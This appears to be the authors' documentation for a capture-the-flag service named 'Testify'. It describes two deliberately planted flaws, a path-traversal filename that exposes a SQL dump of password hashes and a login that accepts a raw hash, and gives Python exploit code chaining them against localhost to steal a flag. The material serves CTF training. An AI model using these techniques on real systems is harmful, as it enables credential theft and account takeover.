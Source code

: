 Testify Service documentation
======================

# <ins>Vulnerabilities

The Testify Service consists of two different Vulnerabilities which must be exploited after each other to get access to
the FLAGSTORE

## VULN #1: User Password Hash Exposure

- Category: Sensitive Data Exposure
- Difficulty: Medium

When registering a new user, a `.sql` dump file of the user database containing the password hashes is created.  
The attacker can retrieve this dump file by using a modified file name when uploading his ID in the appointments
section.

## VULN #2: Pass-The-Hash

- Category: Authentication
- Difficulty: Medium

The password is not allowed to contain any special characters other than ASCII. If the user passes a password string,
that does include non-ASCII characters (*e.g. a password hash obtained by VULN#1*) the hashing of the input password
string is skipped and directly compared to the hash in the user credential databse.

# <ins>Exploits

Two different exploits for VULN#1 and VULN#2 need to be run after each other to obtain a flag.

## VULN #1 :

1. Make an appointment containing a file with arbitrary content but using the filename `../online_users/dump.sql`
2. In the appointments overview section: Use the *Download ID* button to download the hijacked `dump.sql` file

### Code

```
    def get_dump_file():
        filename = '../online_users/dump.sql'
        session_id = register(user, password)
        data = {
            'prename': 'Paul',
            'lastname': 'Meyer',
            'date': '2021-05-06',
            'time': '02:56'
        }
        cookies = {
            'sessionID': session_id,
            'username': user
        }
        
        files = {'id_image': (filename, 'filestring', 'application/octet-stream')}
        req = requests.post('http://localhost:8597/make_appointment', data=data, files=files, cookies=cookies)
        result = req.search('Successfully made appointment &lt;(.*)&gt', res.text)
        url = 'http://localhost:8597/get_id' + result.group(1)

        download = requests.get(url, allow_redirects=True, cookies=cookies)
        return download.content
```

## VULN #2 :

1. Retrieve a user/hash pair from .sql dump file using VULN #1
2. Pass this hash as base64 to `/login` route.
3. Search response appointment content for flag

### Code

```
    def pass_the_hash(user, hash):
        obj = {
                'username': user,
                'password': base64.b64encode(bytes.fromhex(hash)).decode('ascii'),
                'login': 'signin'
        }
        req = requests.post('http://localhost:8597/login', data=obj)
        return req.text
```